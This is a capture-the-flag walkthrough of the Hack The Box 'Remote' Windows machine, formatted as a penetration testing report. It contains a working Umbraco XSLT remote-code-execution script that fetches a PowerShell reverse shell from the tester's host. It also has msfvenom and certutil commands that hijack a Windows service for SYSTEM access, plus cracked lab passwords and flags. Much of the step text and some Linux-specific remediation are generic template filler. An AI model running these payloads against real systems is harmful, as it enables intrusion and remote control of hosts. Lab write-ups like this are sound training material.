








# Offensive Security Assessment Report: Remote


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Remote** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Remote |
| **Platform** | Hack The Box |
| **Operating System** | Windows |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** What service runs on port 2049?

* **Observed Evidence / Output:** mountd



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


**Before we proceed enumerating other services, nmap reveals that anonymous login is allowed for FTP. How many files are available over anonymous FTP?**

* **Observed Evidence / Output:** 0



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


**On TCP port 80 we can see a web store. What is the name of the content management system (CMS) present on Remote?**

* **Observed Evidence / Output:** /umbraco


* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Since FTP yielded no results we shift our attention over to NFS shares. What is the name of the directory that is available on NFS? (Don't include a leading /)**

* **Observed Evidence / Output:** site_backups


* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


**After mounting the "site_backups" share we realize that an "Umbraco" directory exists inside it. Local installation files sometimes include sensitive information like passwords, usernames, e-mails, etc. What is the name of the file that includes the password for the "admin" user?**

* **Observed Evidence / Output:** umbraco.sdf


* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


**No clear-text passwords were available on that file. But, we managed to grab some password hashes. What is the clear text password of the "admin" user?**

* **Observed Evidence / Output:** baconandcheese


* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What version of Umbraco is running on the remote machine?

* **Observed Evidence / Output:** 7.12.4



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
import requests
from bs4 import BeautifulSoup


login = "admin@htb.local"
password = "baconandcheese"
host = "http://10.10.10.180"
command = "IEX (IWR http://10.10.14.8/Invoke-PowerShellTcp.ps1 -UseBasicParsing)"


payload = f"""\
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:msxsl="urn:schemas-microsoft-com:xslt"
    xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">
  <msxsl:script language="C#" implements-prefix="csharp_user">
    public string xml() {{
      string cmd = "{command}";
      System.Diagnostics.Process proc = new System.Diagnostics.Process();
      proc.StartInfo.FileName = "powershell.exe";
      proc.StartInfo.Arguments = cmd;
      proc.StartInfo.UseShellExecute = false;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.Start();
      string output = proc.StandardOutput.ReadToEnd();
      return output;
    }}
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="csharp_user:xml()"/>
  </xsl:template>
</xsl:stylesheet>
"""


url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
loginfo = { "username": login, "password": password}
s = requests.session()
r2 = s.post(url_login, json=loginfo)

if "set-cookie" not in r2.headers:
    print("[!] Login failed")
    exit()


url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r3 = s.get(url_xslt)
soup = BeautifulSoup(r3.text, 'html.parser')
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}


data = {
    "__EVENTTARGET": "",
    "__EVENTARGUMENT": "",
    "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT"
}

r4 = s.post(url_xslt, data=data, headers=headers)
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)

```


* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located on the public user's desktop.**

* **Observed Evidence / Output:** 8a3df1fd74f80fc0127ba1f93cf70ffd



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


**After getting code execution on the system through a vulnerability in Umbraco, what non-default service is running on the system?**

* **Observed Evidence / Output:** TeamViewer7


* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** Which 2019 CVE is related to this version of TeamViewer?

* **Observed Evidence / Output:** CVE-2019-18988



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the password that is extracted by exploiting the TeamViewer vulnerability?

* **Observed Evidence / Output:** !R3m0te!

**Submit the flag located on the administrator's desktop.**

* **Observed Evidence / Output:** c17b5141ba1682fdf88be10bc106314e

```jsx
sc.exe qc usosvc
sc.exe stop UsoSvc
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=998 -f exe -o win-shell.exe

certutil.exe -urlcache -f http://10.10.14.8/win-shell.exe sh1.exe

sc.exe config usosvc binPath="C:\Users\Public\sh1.exe"

sc.exe start UsoSvc
```



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
